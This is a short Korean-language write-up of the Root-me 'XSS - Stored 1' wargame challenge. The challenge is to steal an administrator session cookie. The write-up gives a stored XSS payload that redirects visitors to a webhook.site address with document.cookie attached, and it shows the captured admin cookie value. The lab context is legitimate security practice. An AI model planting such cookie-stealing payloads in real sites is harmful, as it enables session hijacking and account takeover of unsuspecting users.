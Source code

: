 ```yaml
---
title : XSS - Stored 1
categories : [Wargame, Root-me]
tags : [XSS]
---
```


# XSS - Stored 1
```
Author
g0uZ,  3 March 2012

Statement
Steal the administrator session cookie and use it to validate this chall.
```
<a href="https://webhook.site/" target="_blank">https://webhook.site/</a>을 이용하면 됨.

```
title : 아무거나 입력
Message : <script>location.href="webhook에서 받은 url?"+document.cookie;</script>
```
이렇게 보내주고 바로 확인을 했더니 안나오고 문제를 다시 보려해도 보낸 메시지 때문에 webhook으로 가버림.  
다음날 확인해보니 쿠키값이 전송되었음.  
```
?ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```
